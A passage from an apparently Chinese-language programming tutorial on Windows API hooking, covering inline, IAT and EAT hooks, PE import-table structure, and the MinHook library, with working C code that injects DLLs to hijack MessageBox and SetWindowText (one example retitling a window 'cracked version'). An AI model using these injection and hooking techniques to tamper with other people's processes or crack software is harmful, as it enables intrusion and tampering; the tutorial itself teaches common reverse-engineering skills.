  if (VirtualProtect((LPVOID)FuncAddress, 12, PAGE_EXECUTE_READWRITE, &OldProtect))
  {
    memcpy(OldCode, (LPVOID)FuncAddress, 12);                   // 拷贝原始机器码指令
    *(PINT64)(HookCode + 2) = (UINT64)lpFunction;               // 填充90为指定跳转地址
  }
  memcpy((LPVOID)FuncAddress, &HookCode, sizeof(HookCode));       // 拷贝Hook机器指令
  VirtualProtect((LPVOID)FuncAddress, 12, OldProtect, &OldProtect);
}

void UnHook(LPCWSTR lpModule, LPCSTR lpFuncName)
{
  DWORD OldProtect = 0;
  UINT64 FuncAddress = (UINT64)GetProcAddress(GetModuleHandle(lpModule), lpFuncName);
  if (VirtualProtect((LPVOID)FuncAddress, 12, PAGE_EXECUTE_READWRITE, &OldProtect))
  {
    memcpy((LPVOID)FuncAddress, OldCode, sizeof(OldCode));
  }
  VirtualProtect((LPVOID)FuncAddress, 12, OldProtect, &OldProtect);
}

int WINAPI MyMessageBoxW(HWND hWnd, LPCTSTR lpText, LPCTSTR lpCaption, UINT uType)
{
  // 首先恢复Hook代码
  UnHook(L"user32.dll", "MessageBoxW");
  int ret = MessageBoxW(0, L"hello lyshark", lpCaption, uType);

  // 调用结束后,再次挂钩
  Hook(L"user32.dll", "MessageBoxW", (PROC)MyMessageBoxW);
  return ret;
}

bool APIENTRY DllMain(HANDLE handle, DWORD dword, LPVOID lpvoid)
{
  switch (dword)
  {
  case DLL_PROCESS_ATTACH:
    Hook(L"user32.dll", "MessageBoxW", (PROC)MyMessageBoxW);
    break;
  case DLL_PROCESS_DETACH:
    UnHook(L"user32.dll", "MessageBoxW");
    break;
  }
  return true;
}
```
上方的代码还是基于过程化的案例，为了能更加通用，我们将其封装成`MyHook`类，这样后期可以直接引入项目调用了。
```c
#include <iostream>
#include <Windows.h>

class MyHook
{
  public:
    FARPROC m_pfnOrig;       // 保存函数地址
    BYTE m_bOldBytes[12];    // 保存函数入口代码
    BYTE m_bNewBytes[12];    // 保存Inlie Hook代码
  public:

    // 构造函数
    MyHook()
    {
      BYTE OldCode[12] = { 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00 };
      BYTE NewCode[12] = { 0x48, 0xB8, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0x90, 0xFF, 0xE0 };

      RtlMoveMemory(MyHook::m_bNewBytes, NewCode, 12);
      memset(MyHook::m_bOldBytes, 0, 12);
      m_pfnOrig = NULL;
    }

    // 析构函数
    ~MyHook()
    {
      m_pfnOrig = NULL;
      ZeroMemory(MyHook::m_bNewBytes, 12);
      ZeroMemory(MyHook::m_bOldBytes, 12);
    }

    // 开始挂钩
    BOOL Hook(LPCWSTR lpModule, LPCSTR lpFuncName, LPVOID lpFunction)
    {
      DWORD_PTR FuncAddress = (UINT64)GetProcAddress(GetModuleHandle(lpModule), lpFuncName);
      DWORD OldProtect = 0;

      if (VirtualProtect((LPVOID)FuncAddress, 12, PAGE_EXECUTE_READWRITE, &OldProtect))
      {
        memcpy(m_bOldBytes, (LPVOID)FuncAddress, 12);                           // 拷贝原始机器码指令
        *(PINT64)(MyHook::m_bNewBytes + 2) = (UINT64)lpFunction;                // 填充90为指定跳转地址
      }
      memcpy((LPVOID)FuncAddress, &m_bNewBytes, sizeof(m_bNewBytes));             // 拷贝Hook机器指令
      VirtualProtect((LPVOID)FuncAddress, 12, OldProtect, &OldProtect);
      return TRUE;
    }

    // 结束挂钩
    BOOL UnHook(LPCWSTR lpModule, LPCSTR lpFuncName)
    {
      DWORD OldProtect = 0;
      UINT64 FuncAddress = (UINT64)GetProcAddress(GetModuleHandle(lpModule), lpFuncName);
      if (VirtualProtect((LPVOID)FuncAddress, 12, PAGE_EXECUTE_READWRITE, &OldProtect))
      {
        memcpy((LPVOID)FuncAddress, m_bOldBytes, sizeof(m_bOldBytes));
      }
      VirtualProtect((LPVOID)FuncAddress, 12, OldProtect, &OldProtect);
      return TRUE;
    }
};

// 定义全局类
MyHook MsgHook;

// 自己实现中转函数
int WINAPI MyMessageBoxW(HWND hWnd, LPCTSTR lpText, LPCTSTR lpCaption, UINT uType)
{
  // 首先恢复Hook代码
  MsgHook.UnHook(L"user32.dll", "MessageBoxW");
  
  int ret = MessageBoxW(0, L"hi hook api", lpCaption, uType);

  // 调用结束后,再次挂钩
  MsgHook.Hook(L"user32.dll", "MessageBoxW", (PROC)MyMessageBoxW);
  return ret;
}

int main(int argc, char* argv[])
{
  // 开始Hook
  MsgHook.Hook(L"user32.dll", "MessageBoxW", (PROC)MyMessageBoxW);

  MessageBoxW(NULL, L"hello lyshark", L"Msg", MB_OK);

  // 结束Hook
  MsgHook.UnHook(L"user32.dll", "MessageBoxW");

    return 0;
}
```

读者可自行运行上述代码，当尝试调用`MessageBox`函数并传入`hello lyshark`参数时，输出的结果却变成了`hi hook api`如下图所示，则说明内联挂钩生效了。


### 4.4 IAT Hook

IAT（Import Address Table）Hook是一种针对Windows操作系统的API Hooking 技术，用于修改应用程序对动态链接库（DLL）中导入函数的调用。IAT是一个数据结构，其中包含了应用程序在运行时使用的导入函数的地址。

IAT Hook的原理是通过修改IAT中的函数指针，将原本要调用的函数指向另一个自定义的函数。这样，在应用程序执行时，当调用被钩子的函数时，实际上会执行自定义的函数。通过IAT Hook，我们可以拦截和修改应用程序的函数调用，以实现一些自定义的行为，比如记录日志、修改函数参数或返回值等。

IAT Hook的步骤通常包括以下几个步骤：

- 获取目标函数的地址：通过遍历模块的导入表，找到目标函数在DLL中的地址。
- 保存原始函数地址：将目标函数的地址保存下来，以便后续恢复。
- 修改IAT表项：将目标函数在IAT中对应的函数指针修改为自定义函数的地址。
- 实现自定义函数：编写自定义的函数，该函数会在被钩子函数被调用时执行。
- 调用原始函数：在自定义函数中，可以选择是否调用原始的被钩子函数。

该技术常用于实现一些系统级的功能，例如API监控、函数跟踪、代码注入等，接下来笔者将具体分析`IAT Hook`的实现原理，并编写一个`DLL`注入文件，实现`IAT Hook`替换`MessageBox`弹窗的功能。

**分析导入表结构**

在早些年系统中运行的都是`DOS`应用，所以`DOS`头结构就是在那个年代产生的，那时候还没有`PE`结构的概念，不过软件行业发展到今天`DOS`头部分的功能已经无意义了，但为了最大的兼容性微软还是保留了`DOS`文件头，有些软件在识别程序是不是可执行文件的时候通常会读取`PE`文件的前两个字节来判断是不是MZ。



上图就是PE文件中的DOS部分，典型的DOS开头`ASCII`字符串`MZ`幻数，MZ是`Mark Zbikowski`的缩写，`Mark Zbikowski`是`MS-DOS`的主要开发者之一，很显然这个人给微软做出了巨大的贡献。

在DOS格式部分我们只需要关注标红部分，标红部分是一个偏移值`000000F8h`该偏移值指向了PE文件中的标绿部分`00004550`指向PE字符串的位置，此外标黄部分为DOS提示信息，当我们在DOS模式下执行一个可执行文件时会弹出`This program cannot be run in DOS mode.`提示信息。



上图中在PE字符串开头位置向后偏移1字节，就能看到黄色的`014C`此处代表的是机器类别的十六进制表示形式，在向后偏移1个字节是紫色的`0006`代表的是程序中的区段数，继续向后偏移1字节会看到蓝色的`5DB93874`此处是一个时间戳，代表的是自`1970年1月1日`至当前时间的总秒数，继续向后可看到灰色的`000C`此处代表的是链接器的具体版本。




上图中我们以PE字符串为单位向后偏移36字节，即可看到文件偏移为120处的内容，此处的内容是我们要重点研究的对象。

在文件FOA偏移为`120`的位置，可以看到标红色的地址`0001121C`此处代表的是程序装入内存后的入口点(虚拟地址)，而紧随其后的橙色部分`00001000`就是代码段的基址，其后的粉色部分是数据段基址，在数据基址向后偏移1字节可看到紫色的`00400000`此处就是程序的建议装入地址，如果编译器没有开启基址随机化的话，此处默认就是`00400000`，开启随机化后建议装入地址与实际地址将不符合。

继续向下文件FOA偏移为`130`的位置，第一处浅蓝色部分`00001000`为区段之间的对齐值，深蓝色部分`00002000`为文件对其值。

**********
上面只简单的介绍了PE结构的基本内容，在PE结构的开头我们知道了区段的数量是`6`个，接着我们可以在PE字符串向下偏移`244`个字节的位置就能够找到区段块，区块内容如下：




上图可以看到，我分别用不同的颜色标注了这六个不同的区段，区段的开头一般以`.xxx`为标识符其所对应的机器码是`2E`，其中每个区块分别占用`40`个字节的存储空间。

我们以`.text`节为例子，解释下不同块的含义，第一处绿色的位置就是区段名称该名称总长度限制在`8`字节以内，第二处深红色标签为虚拟大小，第三处深紫色标签为虚拟偏移，第四处蓝色标签为实际大小，第五处绿色标签为区段的属性，其它的节区属性与此相同，此处就不再赘述了。

**********

接着继续看一下导入表，导出表，基址重定位表，IAT表，这些表位于PE字符串向后偏移116个字节的位置，如下我已经将重要的字段备注了颜色：




首先第一处浅红色部分就是导出表的地址与大小，默认情况下只有DLL文件才会导出函数所以此处为零，第二处深红色位置为导入表地址而后面的黄色部分则为导入表的大小，继续向下第三处浅蓝色部分则为资源表地址与大小，第四处棕色部分就是基址重定位表的地址，默认情况下只有DLL文件才会重定位，最下方的蓝色部分是`IAT`表的地址，后面的黄色为`IAT`表的大小。

此时我们重点关注一下导入表RVA地址 `0001A1E0` 我们通过该地址计算一下导入表对应到文件中的位置。
> 计算公式：FOA = 导入RVA表地址 - 虚拟偏移 + 实际偏移  = > 0001A1E0 - 11000 + 400 = 95E0



通过计算可得知，导入表位置对应到文件中的位置是`0x95E0`，我们直接跟随过去但此时你会惊奇的发现这里全部都是0，这是因为`Windows`装载器在加载时会动态的获取第三方函数的地址并自动的填充到这些位置处，我们并没有运行EXE文件所以也就不会填充，为了方便演示，我们将程序拖入`x64dbg`让其运行起来，然后来看一个重要的结构。
```C
typedef struct _IMAGE_IMPORT_DESCRIPTOR
{
    union
    {
        DWORD   Characteristics;
        DWORD   OriginalFirstThunk;     // 指向导入表名称的RVA
    } DUMMYUNIONNAME;
    DWORD   TimeDateStamp;              // 默认为0（非重点）
    DWORD   ForwarderChain;             // 默认为0（非重点）
    DWORD   Name;                       // 指向DLL名字的RVA
    DWORD   FirstThunk;                 // 导入地址表IAT的RVA
} IMAGE_IMPORT_DESCRIPTOR;
```
该`IMAGE_IMPORT_DESCRIPTOR` 导入表结构的大小为`4*5 = 20`个字节的空间，导入表结构结束的位置通常会通过使用一串连续的`4*5`个`0`表示结束，接下来我们将从后向前逐一分析这个数据结构所对应到程序中的位置。

**********

通过上面对导入表的分析我们知道了导入表RVA地址为 `0001A1E0` 此时我们还知道`ImageBase`地址是`00400000`两个地址相加即可得到导入表的虚拟VA地址`0041a1e0`，此时我们可以直接通过`x64dbg`的数据窗口定位到`0041a1e0`可看到如下地址组合，结合`IMAGE_IMPORT_DESCRIPTOR`结构来分析。



如上所示，可以看到该程序一共有3个导入结构分别是红紫黄色部分，最后是一串零结尾的字符串，标志着导入表的结束，我们以第1段红色部分为例，最后一个地址偏移`0001A15C`对应的就是导入表中的`FirstThunk`字段，我们将其加上`ImageBase`地址，定位过去发现该地址刚好是`LoadIconW`的函数地址，那么我们有理由相信紧随其后的地址应该是下一个外部函数的地址，而事实也正是如此。



接着我们继续来分析`IMAGE_IMPORT_DESCRIPTOR` 导入结构中的`Name`字段，其对应的是第一张图中的红色部分`0001A54A`将该偏移与基址`00400000`相加后直接定位过去，可以看到`0041A54A`对应的字符串正是`USER32.dll`动态链接库，而后面会有两个`00`标志着字符串的结束。



最后我们来分析`IMAGE_IMPORT_DESCRIPTOR`中最复杂的一个字段`OriginalFirstThunk` 为什么说它复杂呢？是因为他的内部并不是一个数值而是嵌套了另一个结构体 `IMAGE_THUNK_DATA` ，我们先来看一下微软对该结构的定义：
```C
typedef struct _IMAGE_THUNK_DATA32
{
    union
    {
        DWORD ForwarderString;        // PBYTE 
        DWORD Function;               // PDWORD
        DWORD Ordinal;                // 序号
        DWORD AddressOfData;          // 指向 PIMAGE_IMPORT_BY_NAME
    } u1;
} IMAGE_THUNK_DATA32;
typedef IMAGE_THUNK_DATA32 * PIMAGE_THUNK_DATA32;
```
接着来找到`OriginalFirstThunk`字段在内存中的位置，由第一张图可知，图中的标红部分第一个四字节`0001A38C` 就是它。我们加上基址`00400000`然后直接怼过去，并结合上方的结构定义研究一下；



该结构中我们需要关注`AddressOfData`结构成员，该成员中的数据最高位（红色）如果为1(去掉1)说明是函数的导出序号，而如果最高位为0则说明是一个指向`IMAGE_IMPROT_BY_NAME`结构(导入表)的RVA（蓝色）地址，此处因为我们找的是导入表所以最高位全部为零。

我们以上图中的第一个RVA地址`0001A53E`与基址相加，来看下该`AddressOfData`字段中所指向的内容是什么。



上图黄色部分是编译器生成的，而蓝色部分则为`LoadIconW`字符串与`FirstThunk`中的`0041A15C`地址指针是相互对应的，而最后面的`00`则表明字符串的结束，对比以下结构声明就很好理解了。
```C
typedef struct _IMAGE_IMPORT_BY_NAME
{
    WORD    Hint;           // 编译器生成的
    CHAR   Name[1];         // 函数名称，以0结尾的字符串
} IMAGE_IMPORT_BY_NAME, *PIMAGE_IMPORT_BY_NAME;
```
为了能更加充分的理解，笔者为大家用`Excel`画了一张图，如下所示：



如上图`IMAGE_IMPORT_DESCRIPTO`导入表结构中的`FirstThunk`和`OriginalFirstThunk`分别指向两个相同的`IMAGE_THUNK_DATA`结构，其中内存`INT(Improt Name Table)`表中存储的就是导入函数的名称，而`IAT(Improt Address Table)`表中存放的是导入函数的地址，他们都共同指向`IMAGE_IMPORT_BY_NAME`结构，而之所以使用两份`IMAGE_THUNK_DATA`结构，是为了最后还可以留下一份备份数据用来反过来查询地址所对应的导入函数名，看了这张图再结合上面的实验相信你已经理解了；

**导入表劫持实现**

在之前的内容中我们已经分析了导入表结构，接着我们将实现对导入表的劫持功能，我们需要使用`IAT Hook`就必须要首先找到导入表中特定的函数地址，首先我们先实现枚举定位功能，通过枚举程序中的`IMAGE_IMPORT_DESCRIPTOR`结构在其中找到对应的导入模块`user32.dll`并在该模块内寻找对应的函数名`MessageBox`，通过使用双层循环即可实现对特定导入函数的枚举，如下是一段枚举导入表函数的功能；

```C
#include <iostream>
#include <Windows.h>
#include <Dbghelp.h>

#pragma comment (lib, "Dbghelp")

int main(int argc, char* argv[])
{
  // 打开文件
  HANDLE hFile = CreateFile("d://lyshark.exe", GENERIC_READ, FILE_SHARE_READ,
    NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);

  // 创建内存映射
  HANDLE hMap = CreateFileMapping(hFile, NULL, PAGE_READONLY | SEC_IMAGE, 0, 0, 0);
  LPVOID lpBase = MapViewOfFile(hMap, FILE_MAP_READ, 0, 0, 0);
  
  // 得到DOS头部
  PIMAGE_DOS_HEADER pDosHdr = (PIMAGE_DOS_HEADER)lpBase;
  if (pDosHdr->e_magic != IMAGE_DOS_SIGNATURE)
  {
    UnmapViewOfFile(lpBase);
    return -1;
  }

  // 得到NT头部
  PIMAGE_NT_HEADERS pNtHdr = (PIMAGE_NT_HEADERS)((DWORD)lpBase + pDosHdr->e_lfanew);
  if (pNtHdr->Signature != IMAGE_NT_SIGNATURE)
  {
    return -1;
  }

  DWORD dwNum = 0;

  // 数据目录表
  PIMAGE_IMPORT_DESCRIPTOR pImpDes = (PIMAGE_IMPORT_DESCRIPTOR)
    ImageDirectoryEntryToData(lpBase, TRUE, IMAGE_DIRECTORY_ENTRY_IMPORT, &dwNum);

  PIMAGE_IMPORT_DESCRIPTOR pTmpImpDes = pImpDes;

  // 枚举导入表
  while (pTmpImpDes->Name)
  {
    printf("[*] 链接库名称: %s \n", (DWORD)lpBase + (DWORD)pTmpImpDes->Name);
    PIMAGE_THUNK_DATA thunk = (PIMAGE_THUNK_DATA)(pTmpImpDes->FirstThunk + (DWORD)lpBase);

    int index = 0;
    while (thunk->u1.Function)
    {
      if (thunk->u1.Ordinal & IMAGE_ORDINAL_FLAG)
      {
        printf("导入序号: %08X \r\n", thunk->u1.Ordinal & 0xFFFF);
      }
      else
      {
        PIMAGE_IMPORT_BY_NAME pImName = (PIMAGE_IMPORT_BY_NAME)thunk->u1.Function;
        printf("函数名称: %-30s \t", (DWORD)lpBase + pImName->Name);
        DWORD dwAddr = (DWORD)((DWORD *)((DWORD)pNtHdr->OptionalHeader.ImageBase
          + pTmpImpDes->FirstThunk) + index);
        printf("导入地址: 0x%08x \r\n", dwAddr);
      }
      thunk++;
      index++;
    }
    pTmpImpDes++;
  }

  system("pause");
  return 0;
}
```

读者可自行编译并运行上方代码片段，当运行后即可输出`d://lyshark.exe`程序中所有的导入库与该库中的导入函数信息，输出效果如下图所示；



当有了枚举导入表功能，则下一步是寻找特定函数的导入地址，以`MessageBoxA`函数为例，该函数的导入地址是`0x0047d3a0`此时我们只需要在此处进行挂钩，并转向即可实现劫持效果，具体来说这个流程如下所示；

- 首先需要编写DLL文件，在DLL文件中找出`MessageBox`的原函数地址。
- 接着通过代码的方式找到`DOS/NT/FILE-Optional`头偏移地址。
- 通过`DataDirectory[1]`数组得到导入表的起始`RVA`并与`ImageBase`基址相加得到`VA`内存地址。
- 循环遍历导入表中的`IAT`表，找到与`MessageBox`地址相同的4字节位置。
- 找到后通过`VirtualProtect`设置内存属性可读写，并将自己的函数地址写入到目标`IAT`表中。
- 没有找到的话直接`pFirstThunk++`循环遍历后面的4字节位置，直到找到为止。
- 最后将自身弹窗回调函数`MyMessageBoxA`与原函数做替换，则此时即可实现劫持功能。

通过上述开发流程，读者应该可以自行编写出这段劫持代码，如下代码则是完整的劫持实现，我们通过自定义`MyMessageBoxA`函数，并通过`IATHook()`实现对内存中导入函数地址的替换，此时当有新的访问时则会自动跳转到自定义函数上执行，执行结束后既跳转回`OldMessageBoxA`原函数上返回。

```c
#include <iostream>
#include <Windows.h>
#include <Dbghelp.h>

#pragma comment (lib, "Dbghelp")

typedef int(WINAPI *pfMessageBoxA)(HWND, LPCSTR, LPCSTR, UINT);
pfMessageBoxA OldMessageBoxA = NULL;

// 我们自己的回调函数
int WINAPI MyMessageBoxA(HWND hWnd, LPCSTR lpText, LPCSTR lpCaption, UINT uType)
{
  return OldMessageBoxA(hWnd, "hello lyshark", lpCaption, uType);
}

// 得到进程NT头部
PIMAGE_NT_HEADERS GetLocalNtHead()
{
  DWORD dwTemp = NULL;
  PIMAGE_DOS_HEADER pDosHead = NULL;
  PIMAGE_NT_HEADERS pNtHead = NULL;

  // 取自身ImageBase
  HMODULE ImageBase = GetModuleHandle(NULL);

  // 取pDosHead地址
  pDosHead = (PIMAGE_DOS_HEADER)(DWORD)ImageBase;
  dwTemp = (DWORD)pDosHead + (DWORD)pDosHead->e_lfanew;

  // 取出NtHead头地址
  pNtHead = (PIMAGE_NT_HEADERS)dwTemp;
  return pNtHead;
}

// 劫持函数
void IATHook()
{
  PVOID pFuncAddress = NULL;

  // 取Hook函数地址
  pFuncAddress = GetProcAddress(GetModuleHandleA("user32.dll"), "MessageBoxA");

  // 保存原函数指针
  OldMessageBoxA = (pfMessageBoxA)pFuncAddress;

  // 获取到程序自身NtHead
  PIMAGE_NT_HEADERS pNtHead = GetLocalNtHead();
  PIMAGE_FILE_HEADER pFileHead = (PIMAGE_FILE_HEADER)&pNtHead->FileHeader;
  PIMAGE_OPTIONAL_HEADER pOpHead = (PIMAGE_OPTIONAL_HEADER)&pNtHead->OptionalHeader;

  // 找出导入表偏移
  DWORD dwInputTable = pOpHead->DataDirectory[1].VirtualAddress;
  DWORD dwTemp = (DWORD)GetModuleHandle(NULL) + dwInputTable;
  PIMAGE_IMPORT_DESCRIPTOR pImport = (PIMAGE_IMPORT_DESCRIPTOR)dwTemp;
  PIMAGE_IMPORT_DESCRIPTOR pCurrent = pImport;

  // 导入表子表,IAT存储函数地址表
  DWORD *pFirstThunk;

  // 遍历导入表
  while (pCurrent->Characteristics && pCurrent->FirstThunk != NULL)
  {
    // 找到内存中的导入表
    dwTemp = pCurrent->FirstThunk + (DWORD)GetModuleHandle(NULL);

    // 赋值 pFirstThunk
    pFirstThunk = (DWORD *)dwTemp;

    // 不为NULl说明没有结束
    while (*(DWORD*)pFirstThunk != NULL)
    {

      // 相等则找到了
      if (*(DWORD*)pFirstThunk == (DWORD)OldMessageBoxA)
      {
        DWORD oldProtected;

        // 开启写权限
        VirtualProtect(pFirstThunk, 0x1000, PAGE_EXECUTE_READWRITE, &oldProtected);
        dwTemp = (DWORD)MyMessageBoxA;
        
        // 将MyMessageBox地址拷贝替换
        memcpy(pFirstThunk, (DWORD *)&dwTemp, 4);

        // 关闭写保护
        VirtualProtect(pFirstThunk, 0x1000, oldProtected, &oldProtected);
      }

      // 继续递增循环
      pFirstThunk++;
    }

    // 每次是加1个导入表结构
    pCurrent++;
  }
}

BOOL APIENTRY DllMain(HANDLE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
  switch (ul_reason_for_call)
  {
  case DLL_PROCESS_ATTACH:
    // 进程被加载后执行
    IATHook();
    break;
  case DLL_THREAD_ATTACH:
    // 线程被创建后加载
    break;
  case DLL_THREAD_DETACH:
    // 正常退出执行的代码
    break;
  case DLL_PROCESS_DETACH:
    // 进程卸载本Dll后执行的代码
    break;
  }
  return TRUE;
}
```

编译上方代码片段，并生成一个`hook.dll`文件，通过使用注入器将该模块注入到指定进程中，此时再次点击弹窗提示会发现功能已经被替换了，打开`x64dbg`也可看到模块已经被注入，如下图所示；



### 4.5 EAT Hook

EAT（Export Address Table）用于修改动态链接库（DLL）中导出函数的调用。与`IAT Hook`不同，EAT Hook是在DLL自身中进行钩子操作，而不是修改应用程序的导入表。它的原理是通过修改DLL的导出函数地址，将原本要导出的函数指向另一个自定义的函数。这样，在应用程序调用DLL的导出函数时，实际上会执行自定义的函数。

EAT Hook的步骤通常包括以下几个步骤：

- 获取目标DLL的基址：通过模块加载和遍历PE文件的导出表，找到目标DLL的基址。
- 定位导出函数：根据导出函数的名称或序号，在导出表中找到目标函数的位置。
- 保存原始函数地址：将目标函数的地址保存下来，以便后续恢复。
- 修改导出函数地址：将目标函数在导出表中对应的地址修改为自定义函数的地址。
- 实现自定义函数：编写自定义的函数，该函数会在被钩子函数被调用时执行。
- 调用原始函数：在自定义函数中，可以选择是否调用原始的被钩子函数。

与IAT不同是EAT存放的不是函数地址，而是导出函数地址的偏移，使用时需要加上指定Dll的模块基地址，当Hook挂钩之后，所有试图通过导出表获取函数地址的行为都会受到影响，EATHook并不会直接生效，它只能影响`Hook`之后对该函数地址的获取。

实现导出表劫持的详细流程如下所示：

- 首先获取到DOS头，并加上偏移得到NT头，再通过Nt头得到数据目录表基地址。
- 数据目录表`DataDirectory`中的第0个成员指向导出表的首地址，直接拿到导出表的虚拟地址。
- 循环查找导出表的导出函数是否与我们的函数名称一致，一致则取出导出函数地址。
- 设置导出函数位置读写属性，将新的导出函数地址写入到该位置

根据上述流程，读者可以很容易的写出导出表劫持代码，如下所示则是完整的代码片段，当运行`EATHook`时，进程内如果再次获取`MessageBox`函数的内存地址时则会返回`MyMessageBox`自定函数地址，此时功能将被替换。

```C
#include <windows.h>
#include <cstdio>
#include <tchar.h>

// 导出表劫持
BOOL EATHook(LPCTSTR szDllName, LPCTSTR szFunName, LPVOID NewFun)
{
  DWORD addr = 0, index = 0, dwProtect = 0;

  // 装入模块
  HMODULE DllBase = LoadLibrary(szDllName);
  if (NULL == DllBase)
  {
    return(FALSE);
  }

  // 得到Dos头NT头数据目录表
  PIMAGE_DOS_HEADER pDosHeader = (PIMAGE_DOS_HEADER)DllBase;
  PIMAGE_NT_HEADERS pNtHeader = (PIMAGE_NT_HEADERS)((DWORD)pDosHeader + pDosHeader->e_lfanew);
  PIMAGE_OPTIONAL_HEADER pOptHeader = (PIMAGE_OPTIONAL_HEADER)(&pNtHeader->OptionalHeader);

  // 得到导出表的虚拟地址
  PIMAGE_EXPORT_DIRECTORY pExpDes = (PIMAGE_EXPORT_DIRECTORY)
    ((PBYTE)DllBase + pOptHeader->DataDirectory[IMAGE_DIRECTORY_ENTRY_EXPORT].VirtualAddress);

  // 获取导出表的函数地址，函数名称，函数序号
  PULONG pAddressOfFunctions = (PULONG)((PBYTE)DllBase + pExpDes->AddressOfFunctions);
  PULONG pAddressOfNames = (PULONG)((PBYTE)DllBase + pExpDes->AddressOfNames);
  PUSHORT pAddressOfNameOrdinals = (PUSHORT)((PBYTE)DllBase + pExpDes->AddressOfNameOrdinals);

  // 循环查找
  for (int i = 0; i < pExpDes->NumberOfNames; ++i)
  {
    index = pAddressOfNameOrdinals[i];

    // 得到导出函数名
    LPCTSTR pFuncName = (LPTSTR)((PBYTE)DllBase + pAddressOfNames[i]);

    // 对比函数名
    if (!_tcscmp((LPCTSTR)pFuncName, szFunName))
    {
      // 返回地址
      addr = pAddressOfFunctions[index];
      break;
    }
  }

  // 设置读写属性
  VirtualProtect(&pAddressOfFunctions[index], 0x1000, PAGE_READWRITE, &dwProtect);

  // 设置导出函数
  pAddressOfFunctions[index] = (DWORD)NewFun - (DWORD)DllBase;

  // 写出替换
  WriteProcessMemory(GetCurrentProcess(), &pAddressOfFunctions[index],
    (LPCVOID)((DWORD)NewFun - (DWORD)DllBase), sizeof(NewFun), &dwProtect);
  return(TRUE);
}

// 自定义导出函数
int __stdcall MyMessageBox(HWND hWnd, LPCTSTR lpText, LPCTSTR lpCaption, UINT uType)
{
  printf("hello lyshark \n");
  return(0);
}

typedef int (WINAPI* LPFNMESSAGEBOX)(HWND hWnd, LPCTSTR lpText, LPCTSTR lpCaption, UINT uType);

int main(int argc, char *argv[])
{
  // 对MessageBoxA进行Eat Hook
  EATHook("USER32.dll", "MessageBoxA", MyMessageBox);

  // 模拟下次调用后就是执行我们的Hook代码
  LoadLibrary("USER32.dll");
  HMODULE hDll = GetModuleHandle("USER32.dll");

  LPFNMESSAGEBOX lpMessageBox = (LPFNMESSAGEBOX)GetProcAddress(hDll, "MessageBoxA");
  lpMessageBox(NULL, "Hello, EAT Hook", "Info", MB_OK);

  system("pause");
  return(0);
}
```

上述代码被运行后，针对外部调用`MessageBoxA`函数都会转向到`MyMessageBox`函数上，至此传入的参数将会失效，如下图所示；



### 4.6 MinHook

MinHook是一个轻量级的Hooking库，可以在运行时劫持函数调用。它支持钩子API函数和普通函数，并且可以运行在32位和64位Windows操作系统上。其特点包括易于使用、高性能和低内存占用。MinHook使用纯汇编语言实现，在安装和卸载钩子时只需要短暂地锁定目标线程，因此对目标线程的影响非常小。

- GitHub地址： https://github.com/TsudaKageyu/minhook

读者可自行下载对应的库文件，本节所使用的是`MinHook_133_lib`版本，并配置好对应的包含文件以及库目录，如下图所示；



**实现修改弹窗提示**

如下一段代码其作用是`hook MessageBoxA`函数，当程序调用`MessageBoxA`时，会调用`MyMessageBoxA`函数代替原来的`MessageBoxA`函数进行处理，而`MyMessageBoxA`函数会将调用信息改成`Hook Inject`。

示例中的`SetHook`函数用于创建并启用`hook`，使用`MH_Initialize`进行`MinHook`库初始化，然后使用`MH_CreateHook`创建钩子并保存`MessageBoxA`原函数指针到`fpMessageBoxA`中，最后使用`MH_EnableHook`启用`hook`。而`UnHook`函数用于禁用和释放`hook`，使用`MH_DisableHook`禁用钩子，然后使用`MH_Uninitialize`释放`MinHook`库资源。

在`DllMain`函数中，如果是`DLL`进程附加事件，则执行`SetHook`函数，如果是`DLL`进程分离事件，则执行`UnHook`函数禁用和释放钩子。

```C
#include <Windows.h>
#include <MinHook.h>

#pragma comment(lib,"libMinHook-x86-v120-md.lib")

typedef int (WINAPI *OldMessageBox)(HWND, LPCSTR, LPCSTR, UINT);

OldMessageBox fpMessageBoxA = NULL;

// 自定义弹窗
int WINAPI MyMessageBoxA(HWND hWnd, LPCSTR lpText, LPCSTR lpCaption, UINT uType)
{
  int ret = fpMessageBoxA(hWnd, "Hook Inject hello lyshark", lpCaption, uType);
  return ret;
}

// 安装钩子
void SetHook()
{
  if (MH_Initialize() == MB_OK)
  {
    MH_CreateHook(&MessageBoxA, &MyMessageBoxA, reinterpret_cast<void**>(&fpMessageBoxA));
    MH_EnableHook(&MessageBoxA);
  }
}

// 卸载钩子
void UnHook()
{
  if (MH_DisableHook(&MessageBoxA) == MB_OK)
  {
    MH_Uninitialize();
  }
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
  switch (ul_reason_for_call)
  {
  case DLL_PROCESS_ATTACH:
    SetHook();
    break;
  case DLL_PROCESS_DETACH:
    UnHook();
    break;
  }
  return TRUE;
}
```

编译上述代码，使用注入器将`hook.dll`注入到特定进程内，此时点击弹窗提示会发现弹窗内容已经被替代了，如下图所示；



**实现修改窗口标题**

一般来说程序中的修改标题功能都是调用`SetWindowTextA`来实现的，我们可以Hook这个函数对其进行处理后返回新标题即可，当然也可以钩挂住`GetWindowTextA`函数，同样可以实现标题的修改。

如下代码通过对`SetWindowTextA`函数进行挂钩，当读者点击设置标题是则触发自定义`fpSetWindowTextA`函数，该函数内部通过调用自定义标题修改函数实现了将当前软件标题替换为`破解版本`，并返回给用户。

```C
#include <Windows.h>
#include <MinHook.h>

#pragma comment(lib,"libMinHook-x86-v120-md.lib")

typedef BOOL(WINAPI *OldSetWindowTextA)(HWND, LPCSTR);

OldSetWindowTextA fpSetWindowTextA = NULL;

BOOL WINAPI MySetWindowTextA(HWND hWnd, LPCSTR lpString)
{
  BOOL ret = fpSetWindowTextA(hWnd, "破解版本");
  return ret;
}

void SetHook()
{
  if (MH_Initialize() == MB_OK)
  {
    MH_CreateHook(&SetWindowTextA, &MySetWindowTextA, reinterpret_cast<void**>(&fpSetWindowTextA));
    MH_EnableHook(&SetWindowTextA);
  }
}

void UnHook()
{
  if (MH_DisableHook(&SetWindowTextA) == MB_OK)
  {
    MH_Uninitialize();
  }
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
{
  switch (ul_reason_for_call)
  {
  case DLL_PROCESS_ATTACH:
    SetHook();
    break;
  case DLL_PROCESS_DETACH:
